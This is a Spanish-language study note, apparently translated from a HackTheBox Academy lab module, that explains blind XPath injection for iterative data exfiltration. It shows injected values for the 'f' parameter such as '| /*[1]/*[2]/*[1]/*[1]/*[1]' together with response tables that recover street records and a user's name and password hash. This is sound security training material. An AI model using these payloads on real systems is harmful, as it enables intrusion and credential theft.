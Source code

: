 ```yaml
---
tags:
Fecha de actualización:
Nota previa:
Nota siguiente:
Area: "[[Inyección XPath]]"
---
```

---

A veces, es imposible extraer todo el documento XML a la vez. Considere una aplicación web que solo muestra la primera consulta XPath `five` resultados. Si inyectamos nuestra carga útil anterior de modo que la consulta devuelva el documento XML completo, solo podemos exfiltrar el primero `5` puntos de datos. Por lo tanto, necesitamos modificar nuestra carga útil para iterar manualmente a través de todo el documento XML para exfiltrar todos los datos.

---

# Exfiltración avanzada de datos
Para esta sección, estamos trabajando en una versión ligeramente modificada de la aplicación web de la sección anterior que limita la cantidad de resultados devueltos para que no podamos exfiltrar todo el documento XML a la vez. Para iterar a través del esquema XML, primero debemos determinar la profundidad del esquema. Podemos lograr esto asegurándonos de que la consulta XPath original no devuelva resultados y agregando una nueva consulta que nos brinde información sobre la profundidad del esquema. Establecemos el término de búsqueda en el parámetro `q` a cualquier cosa que no devuelva datos, por ejemplo, `SOMETHINGINVALID`. Luego podemos configurar el parámetro `f` to `fullstreetname | /*[1]`. Esto da como resultado la siguiente consulta XPath:
```xpath
/a/b/c/[contains(d/text(), 'SOMETHINGINVALID')]/fullstreetname | /*[1]
```

La subconsulta `/*[1]` comienza en la raíz del documento `/`, mueve un nodo hacia abajo en el árbol de nodos debido al comodín `*`, y selecciona el primer hijo debido al predicado `[1]`. De esta forma, esta subconsulta selecciona el primer hijo de la raíz del documento, el nodo del elemento raíz del documento. Dado que el nodo del elemento raíz del documento tiene varios nodos secundarios, es del tipo de datos `array` en PHP, lo cual podemos confirmar al analizar la respuesta. La aplicación web espera un `string` pero recibe un `array` y por lo tanto no puede imprimir los resultados, lo que da como resultado una respuesta vacía:
![Solicitud HTTP GET con consulta no válida, la respuesta muestra resultados vacíos.](https://academy.hackthebox.com/storage/modules/204/dataexfil_7.png)

Ahora podemos determinar la profundidad del esquema agregando iterativamente un valor adicional `/*[1]` a la subconsulta hasta que cambie el comportamiento de la aplicación web. Los resultados se ven así (el `q` El parámetro sigue siendo el mismo que el anterior para todas las solicitudes):

|Valor del `f` Obtener parámetro|Respuesta|
|---|---|
|`fullstreetname \| /*[1]`|Nada|
|`fullstreetname \| /*[1]/*[1]`|Nada|
|`fullstreetname \| /*[1]/*[1]/*[1]`|Nada|
|`fullstreetname \| /*[1]/*[1]/*[1]/*[1]`|`01ST ST`|
|`fullstreetname \| /*[1]/*[1]/*[1]/*[1]/*[1]`|`No Results!`|

De los resultados anteriores, podemos deducir que la profundidad del esquema para los datos de la calle es `4`:
![Solicitud HTTP GET con consulta no válida, la respuesta muestra '01ST ST'.](https://academy.hackthebox.com/storage/modules/204/dataexfil_8.png)

Esto nos permite comenzar a exfiltrar datos aumentando la posición en el último predicado hasta que no se puedan recuperar más datos:

|Valor del `f` Obtener parámetro|Respuesta|
|---|---|
|`fullstreetname \| /*[1]/*[1]/*[1]/*[1]`|`01ST ST`|
|`fullstreetname \| /*[1]/*[1]/*[1]/*[2]`|`01ST`|
|`fullstreetname \| /*[1]/*[1]/*[1]/*[3]`|`ST`|
|`fullstreetname \| /*[1]/*[1]/*[1]/*[4]`|`No Results!`|

Exfiltramos con éxito información sobre la primera calle del conjunto de datos. Los tres valores parecen ser los `long street name`, el `short street name`, y a `street type`. De esta forma podemos rellenar algunos de los marcadores de posición del esquema XML de la sección anterior. Sin embargo, recuerda que todavía no sabemos los nombres exactos de los nodos. Sólo estamos intentando crear una descripción general de la estructura del documento XML:
```xml
<a>
	<b>
		<street>
			<fullstreetname>01ST ST</fullstreetname>
			<streetname>01ST</streetname>
			<street_type>ST</street_type>
		</street>
	</b>
</a>
```

Ahora podemos extraer información sobre la segunda calle en el conjunto de datos incrementando el predicado de posición penúltima en nuestra carga útil inyectada de la siguiente manera:

|Valor del `f` Obtener parámetro|Respuesta|
|---|---|
|`fullstreetname \| /*[1]/*[1]/*[2]/*[1]`|`02ND AVE`|
|`fullstreetname \| /*[1]/*[1]/*[2]/*[2]`|`02ND`|
|`fullstreetname \| /*[1]/*[1]/*[2]/*[3]`|`AVE`|
|`fullstreetname \| /*[1]/*[1]/*[2]/*[4]`|`No Results!`|

Podemos hacer esto hasta que tengamos información filtrada sobre todas las calles. Sin embargo, como no nos interesan las calles, veamos si el documento XML contiene otros conjuntos de datos. Incrementar el primer predicado de posición en la carga útil tiene poco sentido, ya que esta es la raíz del documento y los documentos XML válidos solo contienen una única raíz de documento. Sin embargo, podemos alterar el predicado de segunda posición para encontrar conjuntos de datos adicionales dentro del documento XML. Recuerde que debemos determinar nuevamente la profundidad del esquema, ya que puede diferir de la profundidad del conjunto de datos de calles. Para ilustrar esto, considere el siguiente documento XML de muestra:
```xml
<dataset>
	<streets>
		<street>
			<fullstreetname>01ST ST</fullstreetname>
			<streetname>01ST</streetname>
			<street_type>ST</street_type>
		</street>
	</streets>
	<users>
		<group name="users">
			<user>
				<username>test</username>
				<password>test</password>
			</user>
		</group>
		<group name="admins">
			<user>
				<username>admin</username>
				<password>admin</password>
			</user>
		</group>
	</users>
</dataset>
```

Al consultar el documento XML anterior, el `street` Los nodos están en profundidad `3`: `/dataset/streets/street`. Sin embargo, el `user` Los nodos están en profundidad `4`: `/dataset/users/group/user`. Por tanto, la profundidad es diferente y debemos determinarla nuevamente para exfiltrar a los usuarios. Podemos determinar la profundidad utilizando los siguientes valores de parámetros. Dado que nos centramos en el segundo conjunto de datos del documento XML, debemos utilizarlo `/*[1]/*[2]` Como punto de partida:

|Valor del `f` Obtener parámetro|Respuesta|
|---|---|
|`fullstreetname \| /*[1]/*[2]`|Nada|
|`fullstreetname \| /*[1]/*[2]/*[1]`|Nada|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]`|Nada|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[1]`|`htb-stdnt`|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[1]/*[1]`|`No Results!`|

Podemos ver que la profundidad del esquema es `5`. Además, parece que hemos exfiltrado un nombre de usuario. Al igual que hicimos con los datos de calles antes, podemos exfiltrar todos los datos del usuario incrementando el último predicado de posición:

|Valor del `f` Obtener parámetro|Respuesta|
|---|---|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[1]`|`htb-stdnt`|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[2]`|`295362c2618a05ba3899904a6a3f5bc0`|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[3]`|`HackTheBox Academy Student Account`|
|`fullstreetname \| /*[1]/*[2]/*[1]/*[1]/*[4]`|`No Results!`|

A partir de los datos que exfiltramos, parece que hemos filtrado un objeto de usuario que consta de un `username`, `password hash`, y `description`. Ahora podemos incrementar iterativamente los índices de posición de derecha a izquierda, tal como lo hicimos con el conjunto de datos de calles para exfiltrar a todos los usuarios.

**Nota:** Para exfiltrar un documento XML completo, tiene sentido implementar un script simple que haga la exfiltración por nosotros.
